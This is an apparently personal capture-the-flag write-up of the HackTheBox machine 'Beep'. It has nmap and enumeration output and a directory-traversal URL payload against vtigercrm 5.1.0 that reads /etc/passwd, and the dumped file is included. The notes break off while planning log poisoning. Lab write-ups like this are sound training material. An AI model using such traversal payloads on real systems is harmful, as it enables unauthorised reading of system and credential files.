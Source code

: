 # Beep

## Recon

Tags: LFI, web 

### Scan findings
```nmap
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       syn-ack ttl 63 Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       syn-ack ttl 63 Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    syn-ack ttl 63 2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       syn-ack ttl 63 Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: NAMESPACE THREAD=ORDEREDSUBJECT LIST-SUBSCRIBED URLAUTHA0001 LISTEXT OK X-NETSCAPE IDLE RENAME CATENATE CONDSTORE MULTIAPPEND THREAD=REFERENCES ANNOTATEMORE Completed SORT=MODSEQ SORT IMAP4rev1 ATOMIC NO QUOTA BINARY LITERAL+ ACL CHILDREN ID IMAP4 STARTTLS MAILBOX-REFERRALS UNSELECT UIDPLUS RIGHTS=kxte
443/tcp   open  ssl/http   syn-ack ttl 63 Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry
|_/
878/tcp   open  status     syn-ack ttl 63 1 (RPC #100024)
993/tcp   open  ssl/imap   syn-ack ttl 63 Cyrus imapd
995/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d
3306/tcp  open  mysql      syn-ack ttl 63 MySQL (unauthorized)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      syn-ack ttl 63 Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp? syn-ack ttl 63
4559/tcp  open  hylafax    syn-ack ttl 63 HylaFAX 4.3.10
5038/tcp  open  asterisk   syn-ack ttl 63 Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack ttl 63 MiniServ 1.570 (Webmin httpd)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Aggressive OS guesses: Linux 2.6.9 - 2.6.24 (95%),
```

Some users found on port 25
```
[25][smtp-enum] host: 10.10.10.7   login: info  
[25][smtp-enum] host: 10.10.10.7   login: adm  
[25][smtp-enum] host: 10.10.10.7   login: root  
[25][smtp-enum] host: 10.10.10.7   login: mysql  
[25][smtp-enum] host: 10.10.10.7   login: ftp
```

https webserver has a few webpages
```
200        1l        6w      894c https://10.10.10.7/favicon.ico  
200        2l        4w       28c https://10.10.10.7/robots.txt  
200       35l      111w     1785c https://10.10.10.7/  
200       35l      111w     1785c https://10.10.10.7/config.php  
200       35l      111w     1785c https://10.10.10.7/index.php  
200       35l      111w     1785c https://10.10.10.7/register.php
```

## Enumeration

The site on 443 is an Elastics CRM login page.  
![[Pasted image 20220113213548.png]]

## Exploitation

It might be this, considering the LFI tag.  
![[Pasted image 20220113212032.png]]

That exploit doesn't work, however it does help to enumerate vtigercrm. I checked, and sure enough it's on this box. The login page even discloses the version `5.1.0`

![[Pasted image 20220113213050.png]]

This new exploit [EDB-18770](https://www.exploit-db.com/exploits/18770), suggests the following url: `https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00`

Sure enough, I can read files now.

![[Pasted image 20220113213426.png]]

After some testing, it looks like we only need to go up 4 directories in the directory traversal: `/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../etc/passwd%00`

Contents of `/etc/passwd`
```bash
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

I was able to get the user flag using LFI

![[Pasted image 20220113215313.png]]

## more Enumeration

There is also a webserver on port 10000.  
![[Pasted image 20220114211041.png]]

An nmap script picked up `CVE-2006-3392`  
![[Pasted image 20220114213707.png]]  
This CVE is linked to [EDB-1997](http://www.exploit-db.com/exploits/1997/).  



## Privilege Escalation.

I still don't have code execution. I should probably look around at other files to see if any credentials can be read. Or maybe I can poison some logs and gain code exection.

## Searching for logs to poison.

